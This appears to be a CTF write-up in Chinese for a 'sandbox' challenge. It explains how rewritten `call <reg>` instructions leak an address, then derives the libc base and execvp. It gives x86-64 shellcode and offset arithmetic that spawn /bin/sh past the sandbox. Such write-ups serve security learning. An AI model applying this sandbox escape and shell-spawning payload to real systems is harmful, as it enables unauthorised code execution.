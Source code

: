 # sandbox

一開始理解完 sandbox.c 的 code 後，可以看到 `syscall` 以及 `call <reg>`的 shellcode 會被取代成 `syscall_monitor` 以及`call_reg_monitor`。這邊就看到一個方式可以去破 ASLR，就是隨便 `call <reg>`讓他被取代成 `call_reg_monitor`，因為會使用`jmp_func`，所以可以看到 r8 的暫存器會保存 `call_reg_monitor` 的 address，按照以下流程就可以做到 leak libc base address 並拿到 execvp：

* 拿到 `.text` 的 base address：`call_reg_monitor` 的 address - `call_reg_monitor` 的 offset
* 拿到 `read` 的 address: 透過 `.text` 的 base address + GOT offset
* 拿到 `libc` 的 base address: `read` 的 address - `read` 的 offset
* 拿到 `execvp`:  `libc` 的 base address + `execvp` 的 offset

我使用的 payload 如下：

```python
sc = asm(f"""
call rcx
add r8, 11310
mov rcx, [r8]

sub rcx, 174336
mov qword ptr [rsp], rcx

mov rdx, 0x68732f6e69622f <-- /bin/sh
mov qword ptr [rsp+8], rdx

lea rdi, [rsp+8]
mov rsi, 0
mov rdx, 0
ret
""")
```

![image-20211221122836230](img/image-20211221122836230.png)

![image-20211221122814435](img/image-20211221122814435.png)

![image-20211221122931896](img/image-20211221122931896.png)

```
r8 - (0x137a - 0x1000) + 0x114b - 0x1000 + 0x2e5d = r8 + 11310
```

![image-20211221123204268](img/image-20211221123204268.png)

![image-20211221123153596](img/image-20211221123153596.png)

![image-20211221123235544](img/image-20211221123235544.png)

```
libc_base = read_addr - (0x111130 - 0x25000)
execvp = libc_base + (0xe6830 - 0x25000) = read_addr - 174336
```